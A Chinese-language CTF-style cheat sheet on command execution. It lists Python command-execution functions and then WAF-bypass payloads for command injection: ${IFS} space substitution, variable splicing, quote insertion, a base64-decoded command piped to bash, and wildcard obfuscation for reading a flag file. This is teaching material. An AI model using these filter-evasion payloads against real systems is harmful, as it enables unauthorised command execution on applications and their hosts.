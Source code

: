 * system()：执行系统指令

* popen()：方法用于从一个命令打开一个管道

* subprocess.call：执行由参数提供的命令，但**元组里的元素不能有空格，每个命令或者标识单独一个字符串**

  eg

  ```
  retcode = subprocess.call(["java", '-jar', jarPath, apkFile, channel, version, targetDstDir])
  ```

* spawn()：用来匹配返回的结果，这个返回的结果是指子程序的返回结果，同时会将匹配的相关信息保存在spawn类的相关属性中

  [spawn详解](https://www.cnblogs.com/space007/p/7019103.html)

#### 1.4 一些waf绕过的姿势

##### 1.4.1 空格绕过

< <> 重定向符(重定向符和ls语句连用可能会产生问题)

%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功、能
%20

##### 1.4.2 语句拼接

```
a=c;b=at;c=fl;d=ag;$a$b $c$d
```

##### 1.4.3 单引号、双引号、反斜杠

```
c""at fl''a\g
```

##### 1.4.4 base64编码(各种编码)

```
echo "Y2F0IGZsYWc="|base64 -d
echo "Y2F0IGZsYWc="|base64 -d|bash (在bash被过滤的情况下可尝试sh)
```

##### 1.4.5 正则（通配符）

```
/???/?[a][t] ?''?''?''?''
```

除次之外，还有glob通配符——参考[无字母数字webshell之提高篇 ](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html#glob)

##### 1.4.6 替代函数

cat的替代  

```
cat file1 从第一个字节开始正向查看文件的内容  
tac file1 从最后一行开始反向查看一个文件的内容  
more file1 查看一个长文件的内容  
less file1 类似于 ‘more’ 命令，但是它允许在文件中和正向操作一样的反向操作  
head file1 查看一个文件  
tail file1 查看一个文件  
awk file1 查看一个文件  
sort file1 将文件的每一行作为一个单位，相互比较，比较原则是从首字符向后，依次按ASCII码值进行比较，最后将他们按升序输出  
nl file1 可以将输出的文件内容自动的加上行号
```
